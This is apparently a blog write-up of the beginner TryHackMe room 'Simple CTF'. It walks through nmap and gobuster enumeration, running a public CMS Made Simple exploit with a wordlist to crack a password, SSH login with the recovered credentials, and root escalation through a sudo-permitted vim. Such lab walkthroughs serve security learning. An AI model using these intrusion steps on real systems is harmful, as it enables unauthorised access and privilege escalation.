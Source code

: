 ```yaml
---
title: "Simple CTF TryHackMe"
date: "07-22-2021"
author: "Reda BELHAJ"
summary: "Simple CTF is a beginner level boot2root room from TryHackme made by Mr.Seth6797."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Simple/Simple.png"
---
```


## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap 10.10.198.35 -sC 
```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 13:14 EDT
Nmap scan report for 10.10.198.35
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.174.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Nmap done: 1 IP address (1 host up) scanned in 40.71 seconds

```

The “Nmap Output” displayed `2` services running under port 1000 and ssh service running on the higher port.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.198.35  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```

![Gobuster](/images/Simple/gobuster.jpg)

## Exploring 

Browsing to ***http://10.10.198.35/simple*** gives us the version of CMS Made Simple:

![Version](/images/Simple/version.jpg)

I then searched for the cve on [exploit-db](https://www.exploit-db.com/exploits/46635) and found the cve with the exploit:

![CVE](/images/Simple/cve.jpg)

## Exploiting

Then I run the exploit using python (version 2.7) inside a virtual environment:

```
python cms_pa.py -u http://10.10.198.35/simple/ -c -w rockyou.txt
```

![Password](/images/Simple/password.jpg)

## User Flag

And now I tried to access SSH with the credentials that We found:

```
mitch@secret
```

```
ssh -p 2222 mitch@10.10.198.35
```

```
G00d *************
```

## Root Flag

So now I tried the infamous `sudo -l` comand to privilege escalate the system

```
sudo -l
```
And i found that **mitch** can run vim with root privileges with ***NOPASSWD***

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

![SUID](/images/Simple/suid.jpg)

And now we're root:

```
W3ll d*****************
```